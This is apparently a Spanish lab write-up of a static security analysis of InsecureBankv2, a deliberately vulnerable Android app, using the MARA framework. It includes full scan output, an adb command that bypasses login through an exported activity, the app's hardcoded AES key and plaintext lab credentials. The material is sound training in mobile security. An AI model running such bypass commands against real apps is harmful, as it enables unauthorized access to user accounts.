





<div class="page"/>

<br>
<br>
<br>

- [**1. Entendiendo que pide el ejercicio**](#1-entendiendo-que-pide-el-ejercicio)
- [**2. Instalación de Mara Framework**](#2-instalación-de-mara-framework)
- [**3. Primer análisis estático de la app con Mara**](#3-primer-análisis-estático-de-la-app-con-mara)
  - [**3.1 Improper Platform Usage**](#31-improper-platform-usage)
  - [**3.2 Insecure Data Storage**](#32-insecure-data-storage)
  - [**3.3 Insecure Communication**](#33-insecure-communication)
  - [**3.4 Insufficient Cryptography**](#34-insufficient-cryptography)
  - [**3.5 Hardcoded sensitive information**](#35-hardcoded-sensitive-information)
  - [**3.6 Insecure application permissions**](#36-insecure-application-permissions)
  - [**3.7 Private IP Disclosure**](#37-private-ip-disclosure)
  - [**3.8 Lista de dominios**](#38-lista-de-dominios)
  - [**3.9 Buscamos en los resultados generados por MARA**](#39-buscamos-en-los-resultados-generados-por-mara)
- [**4. Análisis estático de los ficheros decompilados**](#4-análisis-estático-de-los-ficheros-decompilados)
  - [**4.1 AndroidManifest.xml**](#41-androidmanifestxml)
    - [**Información general de la app**](#información-general-de-la-app)
    - [**Hallazgo M-01 — Aplicación debuggable**](#hallazgo-m-01--aplicación-debuggable)
    - [**Hallazgo M-02 — Backup habilitado**](#hallazgo-m-02--backup-habilitado)
    - [**Hallazgo M-03 — Permisos excesivos y sensibles**](#hallazgo-m-03--permisos-excesivos-y-sensibles)
    - [**Hallazgo M-04 — PostLogin exportada**](#hallazgo-m-04--postlogin-exportada)
    - [**Hallazgo M-05 — DoTransfer exportada**](#hallazgo-m-05--dotransfer-exportada)
    - [**Hallazgo M-06 — ViewStatement exportada**](#hallazgo-m-06--viewstatement-exportada)
    - [**Hallazgo M-07 — ChangePassword exportada**](#hallazgo-m-07--changepassword-exportada)
    - [**Hallazgo M-08 — TrackUserContentProvider exportado**](#hallazgo-m-08--trackusercontentprovider-exportado)
    - [**Hallazgo M-09 — MyBroadCastReceiver exportado**](#hallazgo-m-09--mybroadcastreceiver-exportado)
  - [**4.2 BuildConfig.java.jadx**](#42-buildconfigjavajadx)
    - [**Hallazgo F-01 - Build debug**](#hallazgo-f-01---build-debug)
  - [**4.3 CryptoClass.java.jadx**](#43-cryptoclassjavajadx)
    - [**Hallazgo F-02 - Encontramos una clave criptográfica hardcodeada**](#hallazgo-f-02---encontramos-una-clave-criptográfica-hardcodeada)
    - [**Hallazgo F-03 - IV estático en AES-CBC**](#hallazgo-f-03---iv-estático-en-aes-cbc)
    - [**Hallazgo F-04 - Uso de AES/CBC/PKCS5Padding sin protección de integridad**](#hallazgo-f-04---uso-de-aescbcpkcs5padding-sin-protección-de-integridad)
  - [**4.4 DoLogin.java.jadx**](#44-dologinjavajadx)
    - [**Hallazgo F-05 - Comunicaciones HTTP en claro para login**](#hallazgo-f-05---comunicaciones-http-en-claro-para-login)
    - [**Hallazgo F-06 - Endpoint de desarrollo /devlogin activado por usuario devadmin**](#hallazgo-f-06---endpoint-de-desarrollo-devlogin-activado-por-usuario-devadmin)
    - [**Hallazgo F-07 - Almacenamiento local de credenciales en SharedPreferences**](#hallazgo-f-07---almacenamiento-local-de-credenciales-en-sharedpreferences)
    - [**Hallazgo F-08 - Logging de credenciales**](#hallazgo-f-08---logging-de-credenciales)
    - [**Hallazgo F-09 - Registro de usuarios en ContentProvider**](#hallazgo-f-09---registro-de-usuarios-en-contentprovider)
    - [**Hallazgo F-10 - Flujo de navegación inseguro y frágil**](#hallazgo-f-10---flujo-de-navegación-inseguro-y-frágil)
  - [**4.5 ChangePassword.java.jadx**](#45-changepasswordjavajadx)
      - [**Hallazgo F-11 - Cambio de contraseña por HTTP en claro**](#hallazgo-f-11---cambio-de-contraseña-por-http-en-claro)
    - [**Hallazgo F-12 - Cambio de contraseña basado solo en username y newpassword**](#hallazgo-f-12---cambio-de-contraseña-basado-solo-en-username-y-newpassword)
    - [**Hallazgo F-13 - Validación de complejidad solo en cliente**](#hallazgo-f-13---validación-de-complejidad-solo-en-cliente)
    - [**Hallazgo F-14 - Envío de nueva contraseña por Broadcast implícito**](#hallazgo-f-14---envío-de-nueva-contraseña-por-broadcast-implícito)
    - [**Hallazgo F-15 - Lectura y logging del número de teléfono**](#hallazgo-f-15---lectura-y-logging-del-número-de-teléfono)
  - [**4.6 DoTransfer.java.jadx**](#46-dotransferjavajadx)
    - [**Hallazgo F-16 — Transferencias por HTTP en claro**](#hallazgo-f-16--transferencias-por-http-en-claro)
    - [**Hallazgo F-17 — Reutilización de credenciales almacenadas para operar transferencias**](#hallazgo-f-17--reutilización-de-credenciales-almacenadas-para-operar-transferencias)
    - [**Hallazgo F-18 — Parámetros de transferencia controlados desde UI sin validación local robusta**](#hallazgo-f-18--parámetros-de-transferencia-controlados-desde-ui-sin-validación-local-robusta)
    - [**Hallazgo F-19 — Escritura de extractos en almacenamiento externo**](#hallazgo-f-19--escritura-de-extractos-en-almacenamiento-externo)
    - [**Hallazgo F-20 — Logging de datos financieros**](#hallazgo-f-20--logging-de-datos-financieros)
    - [**Hallazgo F-21 — Validación de éxito basada en substring**](#hallazgo-f-21--validación-de-éxito-basada-en-substring)
  - [**4.7 FilePrefActivity.java.jadx**](#47-fileprefactivityjavajadx)
    - [**Hallazgo F-22 — Configuración manual del servidor sin protección**](#hallazgo-f-22--configuración-manual-del-servidor-sin-protección)
    - [**Hallazgo F-23 — Validación insuficiente del endpoint**](#hallazgo-f-23--validación-insuficiente-del-endpoint)
    - [**Hallazgo F-24 — Activity de configuración potencialmente abusiva si está exportada**](#hallazgo-f-24--activity-de-configuración-potencialmente-abusiva-si-está-exportada)
  - [**4.8 LoginActivity.java.jadx**](#48-loginactivityjavajadx)
    - [**Hallazgo F-25 — Función de autocompletado recupera credenciales en claro**](#hallazgo-f-25--función-de-autocompletado-recupera-credenciales-en-claro)
    - [**Hallazgo F-26 — Credenciales transmitidas entre Activities mediante extras**](#hallazgo-f-26--credenciales-transmitidas-entre-activities-mediante-extras)
    - [**Hallazgo F-27 — Flujo de login dependiente del cliente**](#hallazgo-f-27--flujo-de-login-dependiente-del-cliente)
  - [**4.9 MyBroadCastReceiver.java.jadx**](#49-mybroadcastreceiverjavajadx)
      - [**Hallazgo F-28 — Receiver acepta datos sensibles desde Intent extras**](#hallazgo-f-28--receiver-acepta-datos-sensibles-desde-intent-extras)
    - [**Hallazgo F-29 — Uso de MODE\_WORLD\_READABLE en SharedPreferences**](#hallazgo-f-29--uso-de-mode_world_readable-en-sharedpreferences)
    - [**Hallazgo F-30 — Descifrado de contraseña almacenada dentro del receiver**](#hallazgo-f-30--descifrado-de-contraseña-almacenada-dentro-del-receiver)
    - [**Hallazgo F-31 — Envío de contraseña antigua y nueva por SMS**](#hallazgo-f-31--envío-de-contraseña-antigua-y-nueva-por-sms)
    - [**Hallazgo F-32 — Logging de contraseñas y número de teléfono**](#hallazgo-f-32--logging-de-contraseñas-y-número-de-teléfono)
    - [**Hallazgo F-33 — Manejo inseguro de errores**](#hallazgo-f-33--manejo-inseguro-de-errores)
  - [**4.10 MyWebViewClient.java.jadx**](#410-mywebviewclientjavajadx)
    - [**Hallazgo F-34 — WebViewClient permite cargar cualquier URL recibida**](#hallazgo-f-34--webviewclient-permite-cargar-cualquier-url-recibida)
  - [**4.11 PostLogin.java.jadx**](#411-postloginjavajadx)
    - [**Hallazgo F-35 — Panel post-login accesible solo por extra uname, sin validación de sesión**](#hallazgo-f-35--panel-post-login-accesible-solo-por-extra-uname-sin-validación-de-sesión)
    - [**Hallazgo F-36 — Navegación directa a funcionalidades sensibles desde PostLogin**](#hallazgo-f-36--navegación-directa-a-funcionalidades-sensibles-desde-postlogin)
    - [**Hallazgo F-37 — Paso de identidad por Intent extras**](#hallazgo-f-37--paso-de-identidad-por-intent-extras)
    - [**Hallazgo F-38 — FilePrefActivity accesible desde el menú post-login**](#hallazgo-f-38--fileprefactivity-accesible-desde-el-menú-post-login)
  - [**4.12 TrackUserContentProvider.java.jadx**](#412-trackusercontentproviderjavajadx)
    - [**Hallazgo F-39 — ContentProvider permite consultar, insertar, actualizar y borrar registros**](#hallazgo-f-39--contentprovider-permite-consultar-insertar-actualizar-y-borrar-registros)
    - [**Hallazgo F-40 — Falta de control de autorización en operaciones del provider**](#hallazgo-f-40--falta-de-control-de-autorización-en-operaciones-del-provider)
  - [**4.13 ViewStatement.java.jadx**](#413-viewstatementjavajadx)
    - [**Hallazgo F-41 — Carga de extractos desde almacenamiento externo en WebView**](#hallazgo-f-41--carga-de-extractos-desde-almacenamiento-externo-en-webview)
    - [**Hallazgo F-42 — JavaScript habilitado en WebView para contenido local**](#hallazgo-f-42--javascript-habilitado-en-webview-para-contenido-local)
    - [**Hallazgo F-43 — Logging de ruta local del extracto**](#hallazgo-f-43--logging-de-ruta-local-del-extracto)
- [**5. Resumen de hallazgos del Análisis Estático**](#5-resumen-de-hallazgos-del-análisis-estático)
  - [**5.1 Resumen de hallazgos del Manifest**](#51-resumen-de-hallazgos-del-manifest)
  - [**5.2 Resumen de hallazgos en los ficheros decompilados**](#52-resumen-de-hallazgos-en-los-ficheros-decompilados)
- [**6. Análisis dinámico**](#6-análisis-dinámico)
  - [**6.1 Preparación del entorno y obtención del APK**](#61-preparación-del-entorno-y-obtención-del-apk)
  - [**6.2 El puerto 1337**](#62-el-puerto-1337)
  - [**6.3 Solución con una redirección inversa de puertos con ADB**](#63-solución-con-una-redirección-inversa-de-puertos-con-adb)
  - [**6.4 Configuración final de la app**](#64-configuración-final-de-la-app)
  - [**6.5 Haciendo login desde la app**](#65-haciendo-login-desde-la-app)
  - [**6.6 Bypass por Activities exportadas**](#66-bypass-por-activities-exportadas)
  - [**6.7 Probamos el backdoor `devadmin`**](#67-probamos-el-backdoor-devadmin)
  - [**6.8 Tráfico HTTP en claro**](#68-tráfico-http-en-claro)
  - [**6.9 Almacenamiento local de credenciales**](#69-almacenamiento-local-de-credenciales)
  - [**6.10 ContentProvider exportado**](#610-contentprovider-exportado)
  - [**6.11 Logs sensibles**](#611-logs-sensibles)
  - [**6.12 BroadcastReceiver exportado**](#612-broadcastreceiver-exportado)
  - [**6.13 Cambio de contraseña inseguro**](#613-cambio-de-contraseña-inseguro)
  - [**6.14 Extractos en almacenamiento externo + WebView**](#614-extractos-en-almacenamiento-externo--webview)
  - [**6.15 `allowBackup` y `debuggable` habilitados**](#615-allowbackup-y-debuggable-habilitados)
- [**7. Conclusiones**](#7-conclusiones)


# **1. Entendiendo que pide el ejercicio**

Tenemos que hacer un análisis estático de la app: [Android-InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2), que es una app Android deliberadamente vulnerable usada para practicar análisis estático/dinámico. Tomaremos como base el post de [jaymonsecurity: Vulnerability Analysis in Android Applications (2)](https://jaymonsecurity.com/analisis-vulnerabilidades-app-android2/), que se centra en bypass de login por actividades exportadas, análisis con MobSF/Genymotion y tráfico HTTP sin cifrar.


Identificando la muestra de malware:**

Platform: Android

Package Name: com.android.insecurebankv2

Package Version Name: 1.0

Package Version Code: 1

Min Sdk: 15

Target Sdk: 22

MD5   : 5ee4829065640f9c936ac861d1650ffc

SHA1  : 80b53f80a3c9e6bfd98311f5b26ccddcd1bf0a98

SHA256: b18af2a0e44d7634bbcdf93664d9c78a2695e050393fcfbb5e8b91f902d194a4

SHA512: 91495e1c54c4164e6b8dfc8e08560ee7af612c7810fa37332580670c11fb6b5a9ebd869142993bb9e458171a8d89a03b91cb9acb8e5b74b14a9af84c026a2cec

Analyze Signature: e91eec623beab84f5ed0ca3419197ba5383e266efa8550e5208a0785c9fef965b76e95fc1995c9d58665461b08e2a83a9f0ced3ddec1c8fd384a2408b08b9647


# **2. Instalación de Mara Framework**
MARA Framework (Mobile Application Reverse Engineering and Analysis Framework) es una herramienta orientada al análisis estático de aplicaciones Android. Automatiza tareas como desempaquetar la APK, decompilar código Dalvik a `smali/Java`, extraer el `AndroidManifest.xml`, identificar permisos, localizar cadenas sensibles, buscar patrones inseguros y clasificar hallazgos según categorías de seguridad móvil como OWASP Mobile Top 10.

Lo usamos en este ejercicio porque permite acelerar el análisis de `InsecureBankv2.apk` y obtener una primera visión de su superficie de ataque. En concreto, MARA nos aydará a generar código decompilado con JADX, revisar el Manifest, localizar componentes exportados, detectar uso de HTTP, almacenamiento inseguro, criptografía débil, permisos sensibles y posibles fugas de información.

Vamos a elegir MARA Framework en versión Docker porque facilita montar un entorno de análisis reproducible y aislado, sin tener que instalar manualmente en Kali todas las dependencias antiguas que requiere la herramienta, evitando así conflictos de versiones.


**Instalamos Docker en Kali:**
```
└─$ sudo apt update

└─$ sudo apt install -y docker.io

└─$ sudo systemctl enable docker --now
```

**Configuramos para usar docker sin sudo:**
```
└─$ sudo usermod -aG docker $USER
                                                                                                                      

└─$ newgrp docker
```

**Descargamos la imagen de MARA:**
```
└─$ docker pull xyphex/mara-framework
```

**Creamos una carpeta para los APK:**
```
└─$ mkdir -p ~/Escritorio/Mara-Framework/apps

└─$ cp ~/Escritorio/diva-beta.apk ~/Escritorio/Mara-Framework/apps
```

**Arrancamos el contenedor para usar Mara Framework:**
```
└─$ docker run -it --rm \
  -v ~/Escritorio/Mara-Framework/apps:/apps \
  --name mara-framework \
  xyphex/mara-framework

```

# **3. Primer análisis estático de la app con Mara**
**Ya dentro del contenedor:**
```
root@1bbbb94acba8:/opt/MARA_Framework# ./mara.sh -s /apps/InsecureBankv2.apk 
 
===========================================================================
___  ___  ___  ______  ___  
|  \/  | / _ \ | ___ \/ _ \ 
| .  . |/ /_\ \| |_/ / /_\ \
| |\/| ||  _  ||    /|  _  |
| |  | || | | || |\ \| | | |
\_|  |_/\_| |_/\_| \_\_| |_/
                            
                            
______                                           _    
|  ___|                                         | |   
| |_ _ __ __ _ _ __ ___   _____      _____  _ __| | __
|  _| '__/ _` | '_ ` _ \ / _ \ \ /\ / / _ \| '__| |/ /
| | | | | (_| | | | | | |  __/\ V  V / (_) | |  |   < 
\_| |_|  \__,_|_| |_| |_|\___| \_/\_/ \___/|_|  |_|\_\
                                                      
                                                      
[M]obile [A]pplication [R]everse Engineering & [A]nalysis Framework

version: 0.2.2 beta
Developed by: Christian Kisutsa and Chrispus Kamau
URL: https://github.com/xtiankisutsa/MARA_Framework

==========================================================================
 
==============
 APK analysis 
==============
[+] Initializing...
[+] Setting up playground...
[+] Assembling minions...
[+] Preparing InsecureBankv2.apk
[INFO] - Done 
 
=====================
 Reverse Engineering 
=====================
[+] Disassembling Dalvik bytecode to smali bytecode
[+] Disassembling Dalvik bytecode to java bytecode
[+] Decompiling InsecureBankv2.apk to java source code
[+] Decoding Manifest file and resources
[+] Deobfuscate InsecureBankv2.apk? (yes/no)
    [NOTE] Deobfuscating InsecureBankv2.apk may take upto 10 minutes. This will run in the background!!
    [NOTE] No maximum file size limit...
yes
[INFO] - Done 
 
==============================
 Performing Manifest Analysis 
==============================
[+] Extracting activities
[+] Extracting exported activties
[+] Extract receivers
[+] Extracting exported receivers
[+] Extracting services
[+] Extracting exported services
[+] Checking if apk is debuggable
[+] Checking if apk can be backed up
[+] Checking if apk can run secret codes into the dialer
[+] Checking if apk can receive binary SMS
[INFO] Done
 
=================================
 Performing Preliminary Analysis 
=================================
[+] Parsing smali files for analysis
[+] Dumping apk assets,libraries and resources
[+] Extracting certificate data
    [-] Loading...
    [-] Extracting and dumping certificate
[+] Extracting permissions
./mara.sh: line 219: ./aapt: No such file or directory
[+] Dumping apk strings
./mara.sh: line 223: ./aapt: No such file or directory
[+] Dumping configurations
./mara.sh: line 227: ./aapt: No such file or directory
[+] Dumping dex bytecode
./mara.sh: line 261: ./dexdump: No such file or directory
./mara.sh: line 262: ./dexdump: No such file or directory
[+] Dumping methods and classes
[+] Analyzing apk for potential bugs
[+] Analyzing apk for potential malicious behaviour
[+] Generate smali control flow graphs? (yes/no)
    [NOTE] Generating CFGs may take upto 20 minutes. This will run in the background!!
yes
[+] Identifying compiler/packer
[+] Dumping execution paths
[+] Dumping IP addresses
[+] Dumping URL
[+] Dumping URI
[+] Dumping emails
[+] Dumping additonal strings
[INFO] Done 
 
==========================================
 Performing OWASP Top 10 mobile Analysis 
==========================================
[+] M1-Improper Platform Usage
   [-] Checking for dexguard root detection code
   [-] Checking for capability to request for root/superuser privileges
   [-] Checking for root detection capabilities
   [-] Checking for dynamic class loading
   [-] Checking for Dex file loading and manipulation
   [-] Checking for system commands execution
 
[+] M2-Insecure Data Storage
   [-] Checking for app logging
   [NOTE] Sensitive information should never be logged
   [-] Checking for SQLite Database usage
   [NOTE] Sensitive information should be encrypted
   [-] Checking for content providers
   [-] Checking for world readable objects
   [-] Checking for world writeable objects
   [-] Checking for own directory writing capability
   [NOTE] Sensitive information should be encrypted
 
[+] M3-Insecure Communication
   [-] Checking for capability to connect to http/https/ftp/jar
   [-] Checking for capability to connect to JAR url
   [-] Checking for capability to initiate HTTP network_communications
   [-] Checking for capability to initiate HTTPS network_communications
   [-] Checking for capability to initialize HTTP Requests, network_communications and Sessions
   [-] Checking for webkit Implementation
   [-] Checking for webView load HTML/JavaScript capability
   [-] Checking for insecure webView implementation (Javascript_interface)
   [NOTE] Execution of user controlled code in WebView is a critical Security Hole
   [-] Checking for remote WebView debugging
   [-] Checking for webView POST request capability
 
[+] M5-Insufficient Cryptography
   [-] Checking for crypto usage
   [-] Checking for SSL pinning libraries
   [NOTE] SSL pinning helps prevent MITM attacks over secure communication (https)
 
[+] M8-Code Tampering
   [-] Checking for Java reflection
   [-] Checking for dexguard tamper detection code
   [-] Checking for dexguard signer certificate tamper detection code
 
[+] M9-Reverse Engineering
   [-] Checking for dexguard tamper detection code
   [-] Checking for dexguard signer certificate tamper detection code
   [-] Checking for dexguard debugger detection code
   [NOTE] This code is used to detect whether the app is attached to a debugger
   [-] Checking for dexguard emulator detection code
   [NOTE] This code is used to detect whether the app is running in an emulator
   [-] Checking for dexguard debug key code
   [NOTE] This code to detect whether the app is signed with a debug key
 
=============================================
 Performing OWASP mobile Analysis - stage 2 
=============================================
[+] Lack of Code Protection
   [-] Checking for native java code
   [-] Checking for native java code
 
[+] Hard coded sensitive information in Application Code (including Crypto)
 
[+] Application makes use of Weak Cryptography
   [-] Checking capability to use message digest
   [-] Checking for insecure random number generator usage
 
[+] SSL implementation
   [-] Checking for insecure SSL implementation
   [NOTE] Trusting all the certificates or accepting self signed certificates is a critical security hole
   [-] Checking for insecure webview implementation (Certificate errors)
   [-] Preparing domain SSL scan
   [-] Extracting domains from source files
       http://";
       http://goo.gl
       http://host
       http://plus.google.com
       http://schema.org
       http://schemas.a
       http://www.google-a
       http://www.google.com";
       https://accou
       https://csi.gstatic.com
       https://googleads.g.doubleclick.
       https://logi
       https://ssl.google-a
       https://twitter.com";
       https://www.facebook.com";
       https://www.google-a
       https://www.googleapis.com
       https://www.googletagma
       https://www.li
       https://www.paypal.com";
   [-] Scan domain? (yes/no)
   [NOTE] Domain scanning may take upto 3 minutes. This will run in the background!!
no
   [NOTE] Skipped domain scanning!!
 
[+] Insecure application permissions
   [-] Checking for capability to query databases
   [-] Checking for capability to request for system services
   [-] Checking capability to perform local file I/O operations
   [-] Checking for Device info request
   [-] Checking for SIM info request
   [-] Checking for telephony access
   [-] Checking for capability to send SMS/MMS
   [-] Checking for notification capability
   [-] Checking for cell information request
   [-] Checking for cell location request
   [-] Checking for GPS location request
 
[+] Private IP Disclosure
 
[+] Checking for dexguard debug detection code
   [NOTE] This code is used to detect whether the app is debuggable
 
[+] Service Hijacking
   [-] Checking for Inter Process Communication(IPC)
 
[+] Checking for capability to send broadcasts
 
[+] Malicious Activity/Service Launch
   [-] Checking for capability to starts activties
   [-] Checking if the app starts services
 
[+] Insecure use of network sockets
   [-] Checking for capability to open TCP Server Sockets
   [-] Checking for capability to open UDP Datagram Sockets
 
[+] Application makes use of encoding/decoding
   [-] Checking for Base64 encoding/decoding
   [-] Checking for Base64 decoding
 
=====================
 Finalizing Analysis 
=====================
[+] Dispersing minions...
[INFO] Done
 
[+] That was easy wasnt it? :D
```


## **3.1 Improper Platform Usage**

MARA ejecutó:
```
[+] M1-Improper Platform Usage
```
Aquí encaja el hallazgo principal de la guía: Activities exportadas:
- PostLogin
- DoTransfer
- ViewStatement
- ChangePassword

Receiver exportado:
- MyBroadCastReceiver

ContentProvider exportado:
- TrackUserContentProvider

Este es el bypass que ya hemos validando con:
```
adb -s 127.0.0.1:6555 shell am start \
  -n com.android.insecurebankv2/.PostLogin \
  --es uname dinesh
```

**Impacto:** Un atacante puede abrir pantallas internas sin pasar por el login.


MARA ejecutó análisis de componentes exportados. Este punto se confirma manualmente en `AndroidManifest.xml` y dinámicamente mediante `adb shell am start`, permitiendo acceder a Activities internas sin autenticación.


## **3.2 Insecure Data Storage**

MARA revisó:
```
[+] M2-Insecure Data Storage
[-] Checking for app logging
[-] Checking for SQLite Database usage
[-] Checking for content providers
[-] Checking for world readable objects
[-] Checking for world writeable objects
[-] Checking for own directory writing capability
```
Este hallazgo lo confirmamos dinámicamente:
```
<map>
    <string name="EncryptedUsername">ZGluZXNo</string>
    <string name="superSecurePassword">DTrW2VXjSoFdg0e61fHxJg==</string>
</map>
```

**Interpretación:**
- EncryptedUsername = Base64("dinesh")
- superSecurePassword = contraseña cifrada con clave hardcodeada en la APK

Este punto combina:
- Evidencia dinámica: `shared_prefs/mySharedPreferences.xml`.
- Evidencia estática: `CryptoClass.java` con clave AES hardcodeada.

**Conclusión:** La aplicación almacena credenciales localmente en `SharedPreferences`. El usuario está codificado en Base64 y la contraseña se cifra con una clave hardcodeada, por lo que puede recuperarse mediante análisis estático de la APK.


## **3.3 Insecure Communication**

MARA ejecutó:
```
[+] M3-Insecure Communication
[-] Checking for capability to connect to http/https/ftp/jar
[-] Checking for capability to initiate HTTP network_communications
[-] Checking for capability to initialize HTTP Requests, network_communications and Sessions
```

Esto coincide con lo que ya observamos:
```
POST /login HTTP/1.1
username=dinesh&password=Dinesh@123$
```

**Impacto:** Las credenciales viajan por HTTP sin TLS.

MARA detectó capacidades de comunicación HTTP. La revisión dinámica con `tcpdump` confirma que el login se realiza mediante HTTP en claro, exponiendo usuario y contraseña.


## **3.4 Insufficient Cryptography**

MARA ejecutó:
```
[+] M5-Insufficient Cryptography
[-] Checking for crypto usage
```

Y en Stage 2:
```
[+] Application makes use of Weak Cryptography
[+] Application makes use of encoding/decoding
[-] Checking for Base64 encoding/decoding
[-] Checking for Base64 decoding
```

Esto coincide con:
```
Base64 para usuario
AES/CBC/PKCS5Padding para contraseña
clave hardcodeada
IV estático
```

**Conclusión:** La aplicación usa criptografía reversible con clave embebida en el binario. La protección de `superSecurePassword` es insuficiente, ya que el atacante puede extraer la clave de `CryptoClass.java` y descifrar el valor almacenado.

## **3.5 Hardcoded sensitive information**

MARA marcó:
```
[+] Hard coded sensitive information in Application Code (including Crypto)
```

Este es uno de los hallazgos más importantes. En InsecureBankv2 aplica a:
```
Clave AES hardcodeada:
"This is the super secret key 123"

Endpoint lógico de desarrollo:
devadmin → /devlogin

URLs HTTP construidas en cliente
``` 

**Conclusión:** MARA identifica patrones compatibles con secretos embebidos en código. La revisión manual confirma una clave criptográfica hardcodeada usada para cifrar credenciales locales.


## **3.6 Insecure application permissions**

MARA ejecutó:
```
[+] Insecure application permissions
[-] Checking for capability to send SMS/MMS
[-] Checking for telephony access
[-] Checking capability to perform local file I/O operations
```

Aunque la extracción con `aapt` falló, este punto debe validarse manualmente en `AndroidManifest.xml`.

En esta app son relevantes:
```
android.permission.INTERNET
android.permission.WRITE_EXTERNAL_STORAGE
android.permission.READ_EXTERNAL_STORAGE
android.permission.SEND_SMS
```

**Impacto:** La `app` puede comunicarse por red, escribir datos en almacenamiento externo y enviar SMS. Esto agrava los hallazgos de fuga de datos, almacenamiento inseguro y BroadcastReceiver exportado.


## **3.7 Private IP Disclosure**

MARA marcó:
```
[+] Private IP Disclosure
```

Esto probablemente viene de valores como:
``` 
127.0.0.1
10.0.2.2
10.0.3.2
host
```
donde:
- Se observan direcciones internas o de laboratorio asociadas a la configuración del servidor. El impacto es bajo en este entorno, aunque en una app real podría revelar infraestructura interna o endpoints de desarrollo.


## **3.8 Lista de dominios**

MARA extrajo:
```
http://";
http://goo.gl
http://host
http://plus.google.com
http://schema.org
http://schemas.a
http://www.google-a
http://www.google.com";
https://accou
https://csi.gstatic.com
...
https://www.paypal.com";
```

MARA extrajo múltiples cadenas con formato URL. Sin embargo, varias parecen proceder de recursos o librerías y presentan truncamiento, por lo que no se consideran endpoints funcionales sin validación manual. El endpoint relevante confirmado es el servidor HTTP configurado por la app para `/login`, `/devlogin`, `/dotransfer` y `/changepassword`.


## **3.9 Buscamos en los resultados generados por MARA**

```
=====================================================================
root@1bbbb94acba8:/opt/MARA_Framework# find /opt/MARA_Framework -iname "*InsecureBank*" -o -iname "*report*" -o -iname "*manifest*"
/opt/MARA_Framework/tools/androguard/examples/android/TestsAndroguard/AndroidManifest.xml
/opt/MARA_Framework/tools/androguard/examples/android/TCDiff/AndroidManifest.xml
/opt/MARA_Framework/tools/androguard/examples/android/TC/AndroidManifest.xml
/opt/MARA_Framework/tools/androguard/examples/axml/AndroidManifest-xmlns.xml
/opt/MARA_Framework/tools/androguard/examples/axml/AndroidManifest-Chinese.xml
/opt/MARA_Framework/tools/androguard/examples/axml/AndroidManifest.xml
/opt/MARA_Framework/tools/AndroBugs/AndroBugs_ReportByVectorKey.py
/opt/MARA_Framework/tools/AndroBugs/AndroBugs_ReportSummary.py
/opt/MARA_Framework/tools/AndroBugs/Reports
/opt/MARA_Framework/tools/AndroBugs/Reports/com.android.insecurebankv2_e91eec623beab84f5ed0ca3419197ba5383e266efa8550e5208a0785c9fef965b76e95fc1995c9d58665461b08e2a83a9f0ced3ddec1c8fd384a2408b08b9647.txt
/opt/MARA_Framework/tools/qark/MANIFEST.in
/opt/MARA_Framework/tools/qark/qark/modules/report.py
/opt/MARA_Framework/tools/qark/qark/exploitAPKs/qark/app/src/main/AndroidManifest.xml
/opt/MARA_Framework/tools/androwarn/search/manifest
/opt/MARA_Framework/tools/androwarn/Report
